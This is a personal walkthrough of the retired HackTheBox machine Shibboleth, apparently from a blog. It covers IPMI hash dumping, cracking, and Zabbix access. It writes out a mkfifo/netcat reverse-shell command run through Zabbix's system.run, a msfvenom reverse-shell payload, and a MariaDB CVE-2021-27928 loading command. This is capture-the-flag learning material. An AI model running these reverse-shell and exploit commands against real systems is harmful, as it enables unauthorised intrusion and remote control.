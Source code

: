 ```yaml
---
title: "HackTheBox: Shibboleth Walkthrough"
date: 2022-04-22T17:36:59+02:00
tags: ['hackthebox', 'ctf']
draft: false
---
```


# Introduction

This is my first walkthrough for a HackTheBox machine. It's not the first
machine I've done, though. But as Shibboleth is now "retired", it is allowed
to publish walkthroughs. I have decided not to publish any passwords,
because that would spoil the fun (and not add anything in terms of learning).
I'll rather focus on my chain of thought to go through this challenge.

# Foothold

The very first scan on every machine I do is a port scan using nmap. Depending on
the results, I continue to directory and/or vhost (subdomain) scanning.

First an nmap scan only reveals `80/tcp` as an open port. I have yet to encounter a machine
where this port is not open, as every machine has some kind of "landing page".
In this case, where a tcp port scan does not reveal anything interesting,
it's not a bad idea to also scan udp ports:

```plain
Discovered open port 623/udp on 10.10.11.124
```

Now that's something! A quick search reveals that `623/udp` is the default port for IPMI,
which is some kind of remote management interface.

Searching a bit further, we find common vulnerabilities for IPMI. One that
sounds especially promising is dumping the hashes. Conveniently, the metasploit framework
comes with a payload for this task.

```plain
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:25b6d5c382010...
```

When obtaining a hash, and it's an "insecure" one (that is, not bcrypt or similar),
I put it into hashcat right away. In this case, we need to pick the right
hash type. My hashcat version suggested three, and `-m 7300` is the correct one in this case.
I'm using the "rockyou" wordlist, which also yields a result in this case.

Now we have a username and password, but what next? I tried playing around
with IPMI a bit more - there seem to be ways to get a reverse shell, but those
were not working with this IPMI instance.

But, we are also not done with scanning! Let's scan for vhosts next:

```plain
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]
```

Again, this looks promising. All vhosts point to the same Zabbix instance.
Let's login with the credentials we obtained earlier!

# User

We now have adminisrator access to Zabbix. The installed Zabbix version 5.0.17
does not have any known vulnerability. But, Zabbix is a monitoring software
and as such for sure has the capability to execute commands on the machines
it is monitoring. Time to RTFM :scream:

Under *Configuration > Items > Item types > Zabbix agent* we will find:
> `system.run[command,<mode>]` - Run specified command on the host.

Exactly what we are looking for! Note that this seems to be an intentional
misconfiguration on this machine, because the docs also say:

> All `system.run[*]` items (remote commands, scripts) are disabled by default, even when no deny keys are specified


We now know that we can create an "Item" for the `shibboleth.htb` host in
the Zabbix UI.
I tried a lot of different reverse shell commands until I finally found one which
was working in this context:

```plain
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f,nowait]
```

Click on *Test > Get Value and Test*. We now have a reverse shell for user `zabbix`.


```plain
$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 Oct 16  2021 .
drwxr-xr-x 19 root     root     4096 Oct 16  2021 ..
drwxr-xr-x  3 ipmi-svc ipmi-svc 4096 Oct 16  2021 ipmi-svc

```

We also see the only entry in `/home` is for user `ipmi-svc`, so we now have to escalate to this
user. We *do* have a password, so try the straight-forward way:

```plain
$ su ipmi-svc
Password: <password>
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

Done - we can read the user flag!

# Root

Our next step is to gain root access. If there is no obvious way forward,
running LinPEAS usually gives us a hint: On this machine, there is a config
file `/etc/zabbix/zabbix_server.conf`, which is owned by root - and readable by the current user!
In this file, we will find credentials for a database server. Let's try them out:


```plain
$ mysql -u zabbix -p<password> zabbix

MariaDB [zabbix]> select version();
+----------------------------------+
| version()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```

Looking up vulnerabilities for this MariaDB version leads to `CVE-2021-27928`.
We can use metasploit again, this time to build a payload:

```plain
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4242 -f elf-so -o payload.so
```

Connect to the MariaDB server, execute the payload:

```plain
mysql -u zabbix -p<password> -e 'SET GLOBAL wsrep_provider="/tmp/payload.so";'
```

# Conclusion

I really liked the Shibboleth machine. Probably because it wasn't "the usual
web stuff". Most of the time I needed was to understand
how Zabbix works, and then to get the reverse shell working. This is also
a key learning for me: If you "know" you are on the right track, but it's
not working, try another way. This machine was the first time I used
(and needed) a "mkfifo reverse shell". Furthermore, I learned about `msfvenom`.
